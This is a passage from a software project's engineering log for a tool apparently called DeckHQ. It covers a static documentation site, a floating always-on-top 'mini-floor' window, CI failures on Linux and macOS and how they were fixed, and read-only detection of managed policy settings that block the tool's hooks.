at all, that the stylesheet has no `@import`, no `@font-face` and no remote `url()`, and that the
only hosts named anywhere in the sources are `github.com` and `www.npmjs.com`: links a reader
clicks, never requests the page makes on their behalf.

**JetBrains Mono is named and not shipped.** The package asks for it on numbers. There is no
`.woff2` in this repository and fetching one from a CDN is exactly the thing being refused, so the
stack is `'JetBrains Mono', ui-monospace, 'SFMono-Regular', Menlo, Consolas, monospace` — the face
if the reader's machine has it, the system's mono if not. Same for `IBM Plex Sans`. If those files
are ever licensed and committed, one `@font-face` and one line of the test change together.

### 3. The log is a page per entry, addressed by position rather than by number

This file is 6,000 lines and 110 `##` entries, this one included. It renders as an index plus one
page per entry with prev/next, because a 6,000-line single page is not a blog.

**The file name is the entry's position, not the number it carries.** Entry numbers repeat — there
are two §48s and two §49s, from parallel packages that both numbered from the same point — so the
number is not a key. Position is stable in an append-only log, and the number each entry carries is
displayed exactly as written. The test records both the collision and the reason, so the day the
numbers are made unique the log can move to numbered URLs on purpose rather than by accident.

**One entry has no number at all** — "Findings from review, not previously reported" — and it
renders with an em dash where the number goes rather than being given one it never had.

### 4. The converter escapes first and adds tags second

Everything goes through `esc()` before a single rule runs, so the only markup in the output is what
the five inline rules and the seven block rules put there. A `<script>` in a deviation entry
renders as the visible characters it is; that is a `SECURITY:` test, in the same shape as the ones
guarding `public/markdown.js`. `safeUrl()` refuses `javascript:`, `data:` and protocol-relative
URLs, leaving them as the plain text they were written as.

Two things the converter had to learn from this file rather than from a specification:

- **Code spans are lifted out before anything else and put back last**, so a `*` or a `[` inside
  one is never read as emphasis or a link. The placeholder is a NUL pair, which cannot occur in the
  source and which the escaper leaves alone.
- **Lazy continuation.** §86 wraps a code span across a line break back to column 0 inside a list
  item. Without lazy continuation that line became its own paragraph and split the span in half,
  leaving a stray backtick in the page. There is a test with that exact shape in it.

Relative links here point at files on disk — `plan/06-ENGINEERING-WORKPLAN.md` and its neighbours —
which the site does not publish, so they are rewritten to the repository at the path they meant.
Images are rewritten to the copy under `dist/media/`, and the build fails rather than shipping a
broken one when a referenced image is missing.

### 5. What the copy is not allowed to say

[`08`](plan/08-PLAN-V2-100X.md) §4.2 forbids "cannot see", "invisible" and "hidden" about another
tool, and §3.5 forbids comparing in public at all. The FAQ's first entry is therefore the measured
persistence argument — _`claude agents` lists what is running; DeckHQ keeps what is owed_ — with
the reference machine's own four lines under it, the note that the agent view now groups a
`Completed` set for background sessions and sessions with pull requests, and a commitment to
rewrite the answer the day the numbers stop differing rather than repeat it. No competitor is named
anywhere on the site. A test greps the built pages for the banned phrasings; the log pages are
excluded from it, because the log is a record of what was written at the time rather than copy.

**WP-19 is absent by construction.** The permission card has never met a live session (§97.5), so
it is not on the install page, the FAQ or the home page. The site describes what is on `main` and
has been run, and nothing else.

### 6. Design

Dark only, from `public/style.css`'s own tokens, so a screenshot of the product and the page around
it are the same palette. There is no light theme because the product has none, and a light site
would frame every screenshot in a colour the product never appears in.

Prose sits at a 36 rem measure; the `doctor` report and every table step out to 48 rem, because the
report's longest line is the point of the home page and reading the number the launch is built on
through a horizontal scrollbar would be a strange way to present it. Inline code carries a ground
and no border: the log runs eight or ten spans to a paragraph, and outlining each one turns a
sentence into a row of chips.

### 7. What the owner has to do, and what is unproven

**GitHub Pages must be enabled by hand**, once: Settings → Pages → Build and deployment → Source:
**GitHub Actions**. No workflow can turn Pages on for its own repository. Until it is set, the
`build` job succeeds, uploads the artifact, and `deploy` fails with "Get Pages site failed".
Nothing else in the repository depends on it.

**The workflow has never run.** It is asserted from `test/unit/site.test.mjs` — that it builds what
it deploys, that it deploys from `main`, and that it uploads `site/dist` — which is YAML review
with a test around it, not a green run. The site itself was built, served locally over Node's own
`http` and photographed: `docs/media/site-index.png`.

**The one number on the site is a real run, and it is dated.** The `doctor` block on the home page
and in the FAQ is the reference machine on 3 September 2026, labelled as such, with "your numbers
will differ" beside it. [`08`](plan/08-PLAN-V2-100X.md) §3.0.1 requires it to be re-measured before
every launch wave and reworded the day it stops being true.

## 113. WP-39 — the floating mini-floor: one scene, two render targets

`08` B3 asks for a 320×200 always-on-top window carrying the office, the corridor beside it and
the count, over the terminal, with no shell and no permission. It is the plan's answer to §1.2's
fatal risk — the product's job is to let you stop watching — and to §14's added refusal: no
feature that needs the browser tab open to be useful.

`public/minifloor.js` is that window. `docs/media/mini-floor.png` is it at the size it ships,
photographed from the real thing.

### 1. It is a second render target of the same scene, not a second scene

The tempting build is a second `Scene`: a second `buildPlan`, a second `bakeBackdrop`, a second
`AgentRuntime`. That gives two buildings and two answers to "where is this session standing", and
they come apart the first time either window misses a frame — which is guaranteed, because the two
windows are throttled independently by the browser.

So the mini-floor owns nothing. `Scene` grew exactly two public methods and one export pair:

| added to `scene.js` | what it is |
|---|---|
| `frame()` | the live plan, the live baked bitmap, the live agent records, the snapshot, the selection and the reduced-motion flag. Deliberately the live objects, not copies — records are stepped 60 times a second and cloning them per frame would cost more than the mini-floor's whole draw |
| `stepIfPaused(dt)` | advances the people **only while the main canvas's loop is stopped**, and returns whether it did |
| `colorForAgent` / `iconForAgent` | were private; now exported, so the state colour and the state icon have one definition and not two |

`stepIfPaused` is the non-obvious one and it is the feature working at all. The main loop stops
when the tab is hidden (`_onVisibilityChange`), which is precisely when the floating window is the
only thing on screen. With the runtime stopped, a session whose turn ends is *given* a path into
your office and never walks it: the floating window would show a stale office for as long as the
tab stayed in the background — the exact failure the package exists to prevent. The `_running`
guard is what makes it safe to call every mini-floor frame: while the main floor runs it is a
no-op, so nobody is ever stepped twice.

The paint reuses the main floor's **already-baked** bitmap, blitting the sub-rectangle the shot
covers. A bake is ~190 ms and this window repaints every frame, so re-baking was never an option;
blitting also means the herringbone, the walls, the door swing and every piece of furniture are
literally the same pixels as the floor behind it. The flat-fill path exists only for the frame or
two before the first bake lands.

### 2. What is in the shot, and the margin that had to be added

The office plus the stretch of the spine that runs past its door, and nothing else — no lounge, no
project rooms, no directory strip. The corridor is found by geometry (a corridor room that overlaps
the office's band and starts at one of its vertical edges), with `__spine__` only breaking a tie,
so a plan that renames it still works.

The spine is the full height of the building; including all of it would have halved the scale
everything else is drawn at, so it is clipped to the office's own band.

**The margin is a fix, not a taste call.** The viewport was first the exact union of those two
rooms. On the demo floor at 320×200 that cut the three waiting sessions nearest the west wall in
half against the edge of the canvas: they stand *against* the wall, and a body is wider than the
wall it stands against. `SHOT_PAD_U = 1.2` units of floor around the shot fixes it. The blit's
source rectangle is then clamped back to the bitmap, because the office sits in the building's own
top-left corner and that margin is off the edge of the bake.

### 3. LOD keys off the character scale, not the world scale

`scene.js` asks `lodForZoom(worldScale / U)`. The mini-floor asks
`lodForZoom(characterScale / U)`, capped at L1.

LOD decides how much of a *body* to draw, so the scale it must key off is the one the body is drawn
at. On the main floor those are the same number whenever the fit is not clamped, so nothing changes
there. In a 320×200 window they are never the same number: the shot is ~43 units across in ~214 px,
which is 5 px per unit, and `characterScaleFor` floors a person at 16 px of body — 27% larger than
the plan around them, exactly as `05` §6.2 intends. The window therefore lands at **L0** on any
real population, which is the right level for a 16 px body: L1's separately-drawn limbs would be
mush at that size. The state colour and the state icon are drawn at *every* level, and they are the
whole message here. There is no name label and no waiting badge — no room for either, and the
numeral beside the canvas already says how many are waiting.

**Accepted consequence:** project identity (hair, accent, glyph) does not show at L0, because L0's
`drawSimpleBody` has no hair or accent layer. Per-session appearance still does, through the skin
and build `drawSimpleBody` takes. The identity channels are computed and passed regardless, so the
moment somebody resizes the window past the L1 threshold they appear, with no second code path.

**Also accepted:** four sessions waiting along the office's west wall crowd at 320×200 — their
crimson bodies and check icons touch. It is the same crowding `BADGE_MIN_PX_PER_UNIT` exists for on
the main floor, and the answer is the same: the count beside the canvas carries the number, the
floor carries "somebody is there". Visible in `docs/media/mini-floor.png`.

### 4. The chrome is the product's chrome, by linking the same stylesheet

The PiP document gets a copy of the page's own `<link rel=stylesheet>`, so the numeral in it is
literally `.numeral` / `.numeral-v` / `.numeral-k` from `style.css` — the same tokens,
`is-zero` behaviour and contrast that `state-visuals.test.mjs` already measures. Measured in the
live window: `--ink` `#ECEEF3` on `--bg` `#131419`, 15.8:1, at 34 px. The hands-up line is a state
dot **plus** a mono count **plus** a neutral-ink word, per `05` §10 — state is never colour alone.
Only the layout of that one window is new CSS, and it is one delimited block.

**Reduced motion had one non-obvious hole.** `settings-ui.js` stamps an explicit motion choice on
the *main* document's root as `data-motion`, and the stylesheet's reduce rules read it as well as
the OS query. The floating window is a document of its own, so that attribute has to be carried
across or every `[data-motion='reduce']` rule would silently stop applying the moment the page was
floated — an accessibility regression visible only to the person who had turned motion off. The
window mirrors the attribute each frame, and the JS side asks the same two-input question before it
pulses, so the arrival flash and the CSS animation cannot disagree. Under reduced motion nothing
flashes at all: the numeral has already changed, and that is the information.

The document is built with `createElement` and `textContent` throughout. The client-wide
`SECURITY:` test in `panel-invariant.test.mjs` reads this file like every other, and
`minifloor.test.mjs` asserts it again locally along with an `EGRESS:` test — no request API of any
kind and no second SSE subscription, because the window reads the scene and never the network —
and the invariant: no `/api/` path anywhere in it, so a click selects and can never acknowledge.

### 5. No header control, and `P` registered outside the key map

`05` §5.2's header is a headline, so no button was added to it. The routes in are the palette —
**"Float the office"**, accelerator `f` — and the `P` key.

`P` is registered as its own listener inside one delimited block in `app.js` rather than as a case
in `handleKeydown`'s switch, because two other packages were editing that file at the same time and
that switch is the part of it they were most likely to touch. The guards are copied from that map
in the same order: inert while text has focus, inert while a modal `<dialog>` is open, and a
modifier means the browser's shortcut. **This is a duplication and it should be folded back into
`handleKeydown` once the three branches have merged.**

The module is `import()`ed at load and never awaited at load, for two separate reasons. A static
import would make `./render/*` a hard dependency of the shell, which `app.js`'s own file header
forbids — a broken renderer must cost the floor and nothing else. And `requestWindow()` needs
*transient user activation*, so the import has to be settled before the key is pressed rather than
fetched inside the handler.

### 6. The fallback, and what the plan asked for

`08` B3 says "Firefox/Safari degrade to the PWA badge". They do: `canFloat()` is false, WP-16's
`setAppBadge` gets the real count, and one line of toast says *"This browser cannot float a window.
The count stays on the app badge and the tab."* — no fault, nothing asked of the reader (`04` §5).
That whole path is unit-tested against a fake `window`, because it is the only thing a Firefox or
Safari user ever sees and it must not be the thing nobody ran.

### 7. What was measured, and the one acceptance criterion that was not

Verified live against the demo floor in Chrome 1600×1000, headless, over CDP:

| | |
|---|---|
| `'documentPictureInPicture' in window` | true; **the PiP window is its own CDP page target**, titled `DeckHQ — your office` |
| `P` | opens it; a second `P` closes it (the target is gone) |
| the document | one stylesheet, `#131419` ground, numeral `#ECEEF3` at 34 px, `aria-label` "7 sessions need you" |
| state | numeral 6 → 7 across two runs against a live floor; the window reads the same snapshot the header does |
| clicking a person | main window's panel opened on **that** session ("Backfill the events table") and the floor's selection moved to its id |
| at 320×200 | canvas 214 px, layout holds, `docs/media/mini-floor.png` |
| goldens | all four match, 0 px moved — the floating window is not open in a goldens run |

**Not measured: "stays on top across tab and app switches".** Always-on-top is what Document
Picture-in-Picture *is* — the page cannot ask for anything else and cannot turn it off — but no
automated check on this machine can observe window stacking, and a headful run could not be driven
either: `Input.dispatchKeyEvent` into a Chrome window that is not the foreground window leaves
`document.visibilityState` at `hidden`, and Chrome then refuses `requestWindow` for want of user
activation (`NotAllowedError`). That is an artifact of driving a browser nobody is looking at, not
a product defect — a person pressing `P` has a visible, focused tab. **It needs one human minute
on a real desktop to confirm.**

Chrome's headless PiP window is also not the size that was asked for: `requestWindow({width: 320,
height: 200})` produced a 666×459 window. The screenshot is therefore taken with the PiP target's
viewport forced to 320×200 (`scripts/capture-floor.mjs --pip`), because a photograph at a size no
user will ever see is not evidence of anything. The layout is size-independent by construction —
flex chrome, a fit camera — and was checked at both.

### 8. `Scene.anchorFor(target, id)` (orchestrator addition) — this closes §108.1

Added in the same pass, at the orchestrator's request, because this package was the only one in
`public/render/scene.js` at the time. §108.1 states the gap: WP-13's coach marks 2 and 3 anchor to
"the user's office" and "one waiting agent", both regions of a single canvas, and the renderer
exposed no geometry — so both marks fall back to the canvas's whole bounding box with
`arrow: false`, because an arrow pointing at a guess is a claim the product cannot support.

It is now the screen-space rect of the office, the lounge, one agent (its drawn body box), or a
project room, and `null` when the floor is not drawing that thing. It is the inverse of `_hitTest`
and exists so nothing else ever needs a second copy of the camera arithmetic — the class of
duplication that has produced three separate defects in this renderer.

**Two names, and one frame that had to be reconciled.** §108.1's request says
`'office' | 'lounge' | 'agent' | 'project'`; the orchestrator's says `'office' | 'agent' | 'room'`.
Both are accepted — `'project'` and `'room'` are synonyms and `'lounge'` works — because a caller
that guesses wrong should get the room rather than a silent `null`.

The frame was a real disagreement, not a naming one. §108.1 asked for viewport-relative;
the orchestrator asked for canvas-relative. **Canvas-relative is what shipped**, because that is
the frame the renderer works in everywhere else (`_hitTest` reads `clientX - rect.left`) and
because viewport coordinates bake a page-layout concern into a canvas geometry accessor. The
conversion is therefore three lines in `app.js`'s `coachAnchorFor()`, at the one boundary between
the two frames, right beside the `element` branch that reads `getBoundingClientRect()` for the
same purpose. `coach-marks.js` is untouched, exactly as §108.1 predicted, and its fallback path is
still covered by its own tests.

The arithmetic is `computeAnchor()`, a plain named export beside `computeFitScale` and friends,
with `anchorFor` as a five-line adapter over it. That split is this file's own convention and the
reason for it is at the bottom of `scene.js`: `new Scene(...)` needs a canvas, a document and a
window, so anything that must be unit-tested lives outside the class where a stub plan is enough.

An agent's box is `BODY_HEIGHT_U` tall by twice `SELECTION_RING_R` wide, at the **character**
scale, with its bottom edge at the feet. `SELECTION_RING_R` is newly exported from `rig.js` for it:
it is already the product's own answer to "how wide is a person", sized to clear the widest pose
the rig can reach, and it is the shape the interface already draws to mean *this one*. Inventing a
second width estimate is the mistake §16, §35 and §38 all are.

`null` is returned, rather than a rect, for: no plan yet, no room by that id, a room of the wrong
kind, an agent with no record or one not yet initialised, an agent in `plan.hidden` (went home, or
at a desk in a project with no room), and any target name it does not know. The rect is a snapshot
and not a subscription — the floor moves, and a caller holding one across frames is holding a stale
one.

### Acceptance

31 new tests in `test/unit/minifloor.test.mjs` (composition, drawing against a stub canvas, the
fallback, and the six source-reading guards above) and 5 in `scene-math.test.mjs` for
`computeAnchor`. 1265 → 1301. Lint, format and all four goldens green.
## 114. CI — a Windows-shaped assertion, a Chrome that would not start, and a cancellation that ate the verdict

The `merge: WP-10` run on `main` (3 September 2026, 17:45 UTC) was red on every Ubuntu and macOS
job and green on all three Windows ones. Two independent failures with the same underlying shape:
**something the developer's machine happened to be was being relied on as though it had been
stated.**

### 1. One test asserted the host's platform rather than the code's answer for a platform

```
not ok 659 - a .cmd shim is run as an argument to the interpreter, never as a shell string
  location: 'test/unit/plugin-hook.test.mjs:420:1'
  error: "Cannot read properties of null (reading 'command')"
```

`resolveLauncher()` in `plugin/lib/start.mjs` answers "how would DeckHQ be launched on this
machine". The test handed it a fabricated `C:\tools` PATH and a fabricated `deckhq.cmd`, then
asserted the argv is `cmd.exe /d /s /c <shim>` — the SECURITY property that Node has refused to
spawn a batch file directly since 18.20.2 and that this project will not reach for a shell string
instead. Every input was injected except the one that decided the outcome. On a non-Windows host
the resolver read `process.platform` and never looked for a `.cmd` at all, and `path.delimiter`
split `C:\tools` on the `:` into two directories that do not exist. It returned `null` and the
assertion dereferenced it.

**This is the failure mode the property exists to guard against, inverted.** The argv for Windows
is the one worth asserting hardest, and it was being asserted only where it was least likely to be
wrong — on the machine that had run it by hand. Six of the nine matrix jobs proved nothing about
it; the seventh through ninth were the only ones that did, and it took a merge to `main` to find
out.

**Fixed by injecting the platform, not by weakening the assertion.** `resolveLauncher` takes
`platform` alongside `env` and `exists`, exactly as `src/core/editor.mjs` `findOnPath()` and
`editorArgv()` already did — the sibling precedent, followed rather than reinvented. Everything
downstream of it reads that value: the extension list, and `path.win32` vs `path.posix` for
`delimiter`, `join` and `extname`, because a PATH of `C:\tools` must not be split on `:` merely
because the host is Linux. `ComSpec` now comes from the injected `env` first (falling back to the
real one, then `cmd.exe`), so the exact interpreter path is an input too. `ensureDaemon` threads
`platform` through for the same reason.

The assertion got **stronger**, not weaker. It was one test; it is now five, and each names the
platform it is about:

| Test | Proves |
|---|---|
| a `.cmd` shim is run as an argument to the interpreter | `cmd.exe /d /s /c <shim>`, with the exact `ComSpec` asserted, not a regex |
| a machine with no `ComSpec` still goes through `cmd.exe` | the fallback is still an interpreter, still an argv array |
| the `.exe` beside a `.cmd` wins | preference order, and that the winner needs no interpreter |
| a posix machine never looks for a `.cmd` | the negative — a stray `deckhq.cmd` on a Linux PATH resolves to nothing |
| an extensionless executable is spawned directly | the posix answer, on an injected posix |

All five now run on all nine matrix jobs and prove the same thing on each.

**The rest of the suite was swept for the same defect, and it does not have it.** Three tests read
`process.platform`, and all three are correct: `ledger.test.mjs` declines to assert `0600` on a
filesystem that does not enforce a mode (§100), `actions.test.mjs` writes the script extension the
host will actually run, and `hooks.test.mjs` picks a path shape the host's `path` will parse.
Those adapt to the host because what they test *is* host behaviour; test 659 was asserting what
the code **builds**, which is a different thing and must not vary. Verified by running the whole
suite with `process.platform` forced to `linux` on the Windows host: 1275 of 1276 pass, and the
one that does not is the `0600` line, which cannot pass on NTFS whatever `process.platform` says
— the CI log agrees, test 659 was the only failure across all six Linux and macOS jobs.

### 2. The goldens job failed instead of skipping, which §87 had promised it would not

```
Error: Chrome did not expose a page target in time
    at waitForPageTarget (src/cli/chrome.mjs:116:38)
```

[§87](#87-wp-21--the-goldens-gate-and-the-numbers-it-was-calibrated-with) says both tooling gaps
"degrade to a skip with exit 0 rather than a red build — because a gate that goes red over a
missing browser is a gate people learn to ignore". It named two gaps: no WebSocket, and no Chrome
on the machine. **It missed the third and most likely one: a Chrome that is present and will not
start.** The Ubuntu runner has `/usr/bin/google-chrome`, so both guards passed, and then the
launch failed 21 s later with an unhandled rejection. Linux has no committed goldens, so this job
could not have proved anything even had it worked — it failed a merge over a gate that was
explicitly documented as proving nothing yet.

**The launch.** `src/cli/chrome.mjs`:

- **`--no-sandbox`, `--disable-setuid-sandbox`, `--disable-dev-shm-usage`, on Linux only.** CI and
  container kernels commonly have user namespaces off and the zygote dies at startup; `/dev/shm`
  is 64 MB in most containers and Chrome's default shared-memory backing overruns it. The page
  being rendered is our own loopback demo floor, so there is nothing here for the sandbox to
  contain. `platformLaunchArgs()` returns `[]` on every other platform and a test asserts that it
  does — **the committed `win32` goldens were captured against an exact command line, so a flag
  added to it is a regeneration, not a fix.**
- **A longer wait, and a shorter one where it is not needed.** 20 s locally, 60 s under `CI`.
  Chrome on a shared runner with a cold page cache is an order of magnitude slower to start than
  Chrome on a laptop; a healthy one answers in about a second either way, so this is a hang guard
  and not a budget.
- **Three attempts, on a fresh debugging port each time.** The port is obtained by asking the OS
  for a free one and then handing it to Chrome, which leaves a window in which something else can
  take it — on a runner opening and closing sockets constantly that window is not theoretical, and
  the symptom is indistinguishable from a slow Chrome. An explicitly requested `debugPort` is kept
  across attempts, because the caller asked for that port.
- **Chrome's stderr is read rather than dropped.** When it refuses to start it says exactly why,
  and that sentence is the entire value of the skip line. `stdio` went from `ignore` to a drained
  pipe, capped at 20 chunks.
- **A dead process is reported at once.** `waitForPageTarget` takes a `died` probe, so a browser
  that exited fails in under a second with its own reason instead of after the full budget with
  none. This is what keeps the three attempts inside the job timeout.
- **`CHROME_BIN` beside `CHROME_PATH`, and a PATH pass.** `CHROME_BIN` is the name CI images and
  Puppeteer already set. The PATH pass (`google-chrome`, `google-chrome-stable`, `chromium`,
  `chromium-browser`, `microsoft-edge`) is last, after every absolute candidate, so it can only
  ever add a machine that would otherwise have been reported as having no browser at all — the
  Windows and macOS outcomes are unchanged.

**The skip is labelled, so it cannot swallow a real failure.** Every launch error carries
`code === CHROME_UNAVAILABLE`; `goldens.mjs` forgives that code and rethrows everything else. A
capture that fails, a floor that will not settle, a golden that does not match — all still fail,
loudly. What is forgiven is precisely "this machine could not give us a browser":

```
goldens: could not start a browser: Chrome at /usr/bin/google-chrome could not be started in
  3 attempt(s): Chrome exited with 1 before it exposed a page target — Chrome said: ...
goldens: SKIPPED (nothing checked) — this run proves nothing about the floor.
```

Exit 0. The wording is deliberate and matches §87's existing skip: a green line over an empty
comparison is the failure mode that would actually hurt.

**`timeout-minutes: 4` became 8** on the goldens job. Three attempts against a 60 s wait is up to
3 minutes before the skip line is even reached, and a job the runner kills at the timeout has
*failed* — which is the exact outcome this change exists to prevent. The `test` job had no
`timeout-minutes` at all and now has 10, against a suite that takes 5 seconds; it is a guard on a
socket that never answers, not a budget.

**Verified on Windows: the goldens still pass at 0 px on all four populations, 27.6 s** — inside
§87's measured 26–28 s band, and the argv on this platform is byte-identical to what produced the
committed set. The skip path was exercised by pointing `CHROME_PATH` at `node.exe`: it reports
Node's own complaint about `--headless=new` and exits 0.

**Unproven until this runs on Linux — RAISE.** Whether the Ubuntu runner's Chrome now starts is
not something a Windows host can demonstrate. The flags are the standard set for exactly this
failure and the retry loop is defensive, but the honest statement is that the *skip* is proven and
the *capture* is not. If it still cannot start, the job now says so in one sentence and exits 0
instead of failing the merge, which is what §87 promised; the linux goldens set remains
uncommitted either way, and the artifact upload is still how it gets made.

### 3. Concurrency: pushes to `main` were being cancelled by later pushes

The workflow had no `concurrency` block, and the default GitHub behaviour left most `main` runs
recorded as *cancelled* — a history of merges with no verdict on them, which is how two failures
this size survived to be found in one sitting.

```yaml
concurrency:
  group: ci-${{ github.event_name == 'pull_request' && github.ref || github.sha }}
  cancel-in-progress: ${{ github.event_name == 'pull_request' }}
```

Superseding a run is only ever right on a branch somebody is iterating on. A pull request groups
by ref and cancels in progress; a push to `main` groups by **commit**, so every merge gets a group
of its own and runs to completion. Grouping `main` by ref with cancellation off would have been
worse than the problem: back-to-back merges would queue behind each other, and the history would
still contain runs that never reported.

### What this cost, and the rule it earns

Nine matrix jobs existed and six of them were proving less than they appeared to. The rule is not
"add more platforms" — they were already there. It is: **a test that asserts what the code builds
must be handed every input that decides it, the host's own platform included.** The injection
seams were already in this codebase (`editor.mjs`, `terminals.mjs`, `notify.mjs` all take a
`platform`); one module had not been given one, and one line of a workflow comment had promised a
skip that the code did not implement.

## 115. WP-56 — the managed policy that switches the hooks off, and the row that names it

The WP-19 spike found two Claude Code settings keys that stop DeckHQ's hooks from running
(§86.4), and the WP-19 build left detecting them as a follow-up (§97.4): _"on a managed machine
they look exactly like a hook that is installed and never fires."_ This is that follow-up.

It is worth an entry of its own because of what the state looks like from inside the product. The
settings file is byte-for-byte what the consent screen showed. `installed()` is true. The port
matches the daemon. The daemon is up and answering. And no event ever arrives, forever. Every
surface DeckHQ has says the install is healthy; the only observable is an event counter that never
moves, which is the same observable as a firewall, a missing `node` on `PATH`, or a bug in this
project. §75 reserved exit 1 for exactly this class — _"the failure this check is actually for,
and it is invisible in every other surface"_ — and this is the second member of it.

### 115.1 Where the files are, and how much of that is verified

Read from the Claude Code documentation (_Deploy managed settings_ at
`code.claude.com/docs/en/managed-settings`, _Settings_ at `/docs/en/settings`, and the settings
reference index), 4 September 2026:

| | Read from the docs | Verified on a machine |
|---|---|---|
| macOS `/Library/Application Support/ClaudeCode/managed-settings.json` | yes | **no** |
| Linux and WSL `/etc/claude-code/managed-settings.json` | yes | **no** |
| Windows `C:\Program Files\ClaudeCode\managed-settings.json` | yes | yes — absent on the reference machine, the correct answer for an unmanaged box |
| `managed-settings.d/*.json` beside it, merged after it, alphabetically, ignoring hidden files and non-`.json` | yes | no |
| The legacy Windows `C:\ProgramData\ClaudeCode\managed-settings.json` is **not** read by the runtime | yes | n/a — so this does not read it either, and a test asserts that path never appears |
| `allowedHttpHookUrls`, scope **any file**, and a handler runs only if its URL matches the **merged** allowlist | yes | no |
| `allowManagedHooksOnly`, scope **managed**; hooks from a plugin force-enabled in the managed `enabledPlugins` are exempt | yes | no |

The prose the spike quoted for the two keys in §86.4 came from the shipped runtime bundle, which
is the stronger source; the published reference gives their scope and the merge rule, which the
bundle reading did not.

**No managed machine was available.** Nothing here was measured against a Claude Code with a
policy in force: this package could not deploy one, because writing into any of those three
directories is modifying a managed settings location. What *was* run is the whole of DeckHQ's own
side against injected directories — 114.4 — which proves the read, the merge, the match, the row,
the problem line, the share block, the route field and the exit code, and proves nothing at all
about how the runtime behaves when the key is set. If someone runs DeckHQ on a fleet with
`allowManagedHooksOnly` deployed and the hooks still fire, that is the fact this entry has wrong,
and the correction belongs here.

**The file mechanism is the only one read.** The same documentation lists MDM profiles (the
`com.anthropic.claudecode` managed preferences domain on macOS), the Windows registry, an
embedding host's `managedSettings`, and server-managed settings fetched from the claude.ai
console. None of those is a file this process can open, and three of them are not on disk at all.
So a machine policed by MDM or by the console reports exactly what it reported before this
package: hooks installed, events zero. That is a real gap and it is not closeable from here.

### 115.2 The two keys are not the same size, and the report does not pretend they are

`allowManagedHooksOnly` ignores every hook DeckHQ installs, by either route — the eight `command`
entries and WP-19's `http` one. `allowedHttpHookUrls` reaches **only** the `http` entry, because
that is the only HTTP hook DeckHQ writes and the plugin (§102) writes none at all: the eight
lifecycle events keep delivering, and what dies is the permission card.

So the row is the same short sentence for both — it sits in a column-aligned report, and the key
and the file are what the reader needs in order to go and look —

```
  hooks           installed, but a managed policy blocks them — allowManagedHooksOnly (C:\Program Files\ClaudeCode\managed-settings.json)
```

— and the `!` line under it says what that key actually takes away, differently for each. §73's
discipline is _say only what can be checked_, and a row that said "blocks them" and stopped would
be overstating `allowedHttpHookUrls` by eight events. The share block (§84) carries the key
without the file, because a managed settings path is a path like any other and that block carries
none.

### 115.3 Four decisions the package had to make

1. **A generous match, on purpose.** The documentation names `allowedHttpHookUrls` and says a
   handler runs only if its URL "matches the merged allowlist". It does not say what matching
   *is* — exact, prefix, origin, glob — and there was no managed machine to measure it on. So
   `allowlistCovers()` counts all four, and a `*` glob is translated as a glob rather than as a
   regular expression (a test pins that `http://127x0x0x1:4317/*` does **not** cover our URL,
   which a naive translation would have let through). The two errors do not cost the same: missing
   a block leaves the report saying exactly what it said yesterday, while inventing one puts a
   healthy machine at exit 1 and a red banner in its header over a matching rule this project
   guessed at.
2. **The user's own settings file is read, and can only ever widen.** The key's documented scope
   is *any file* and the allowlist *merges*, so a managed `[]` beside a user entry naming our URL
   may well be a machine where the hook runs. Reading `~/.claude/settings.json` into the union is
   what keeps `doctor` from failing that machine. It is never allowed to originate a block: a
   block requires a *managed* source to have defined the key, because the row says "a managed
   policy" and it will not say that about a file the user wrote.
3. **The plugin exemption is honoured.** `allowManagedHooksOnly` exempts hooks from a plugin the
   managed policy force-enables in `enabledPlugins`, so the managed sources' `enabledPlugins` are
   read too, and a `deckhq@<marketplace>: true` there means a plugin install is *not* reported as
   blocked. Without it, the one deployment where an organisation has deliberately shipped DeckHQ
   to its fleet is the one where `doctor` would call it broken.
4. **A file that exists and cannot be read is neither a block nor nothing.** `managedSettings()`
   lists it under `unreadable` and takes no position; `blockedByPolicy()` returns null. "There is
   a policy here we could not read" and "there is no policy here" are different facts, and only
   one of them is safe to act on. `ENOENT` is not reported at all — an absent file is the resting
   state of an unmanaged machine, which is most machines.

Everything is read-only. Nothing here opens a managed settings file for writing, and `doctor`
never could: it is the command that must not be able to change the thing it reports on — the same
rule that makes `readTerminalPin` a plain read rather than a `Store`.

### 115.4 What was measured

`deckhq doctor` on the reference machine, unchanged and exit 0 — Windows 11, no
`C:\Program Files\ClaudeCode` at all, hooks installed on 4400 with 424 events delivered, the last
one 7m before the run. That is the case the check must not disturb, and it is the case almost
every machine is in.

Then the same real adapter and the same real `collectReport` / `renderReport` / `renderShare`,
with the managed directory injected at a temp path, on this machine:

| Injected `managed-settings.json` | Row | Exit |
|---|---|---|
| `{"allowManagedHooksOnly": true}` | `installed, but a managed policy blocks them — allowManagedHooksOnly (<file>)` | 1 |
| `{"allowedHttpHookUrls": []}` | `installed, but a managed policy blocks them — allowedHttpHookUrls (<file>)` | 1 |
| `{"allowedHttpHookUrls": ["http://127.0.0.1:4400/api/permission"]}` | `installed, port 4400, 424 events, last 7m ago` | 0 |
| `{}` | `installed, port 4400, 424 events, last 7m ago` | 0 |

**Proved by test** (48 new; the suite goes 1301 → 1349):

- `test/unit/hook-policy.test.mjs` (35): the directory for each platform, `%ProgramFiles%` rather
  than an assumed system drive, the legacy Windows path's absence, the drop-in merge order and
  what it skips; each key present, absent, true, false and empty; the union across sources; an
  unparseable file and a non-object file; the plugin force-enable; ten cases of what covers a URL
  and what does not; and the verdict for every combination — allowlist containing the daemon URL,
  omitting it, empty, followed to a moved port, widened by the user's file, never originated by
  it, both keys blocking at once, and `blockedByPolicy` pointed at a directory where a file
  should be.
- `test/unit/doctor.test.mjs` (9): the row's exact wording, exit 1 for each key, the two different
  problem lines, an adapter with no policy check at all, a policy read that throws leaving the
  report untouched, hooks that are not installed never being reported as blocked, the share
  block's key-without-path, and the JSON document's stable key set.
- `test/unit/hook-route.test.mjs` (4): `blockedByPolicy` on `/api/hooks`, null rather than absent,
  a throw that does not fail the status, and the port the check is asked about.

The §74 honesty tests still pass, and a new one runs the same assertions over the blocked wording:
"cannot see", "invisible", "blind" and "hidden" appear in none of the row, the problem line, the
share block or the header banner. What is blocked is a hook, and what the report says is that it
does not run.

### 115.5 What is still owed

A run on a machine with a real managed policy in force. Until that has happened the claim is
_"DeckHQ reads the managed settings file and reports what it finds there"_, which is proved, and
**not** _"DeckHQ tells you when Claude Code is ignoring your hooks"_, which needs a Claude Code
that is actually ignoring them. The gap in 114.1 — MDM, the registry, and server-managed settings
from the console — is not closeable by reading files, and needs its own decision before it is
described as a limitation of the *feature* rather than of *this package*.
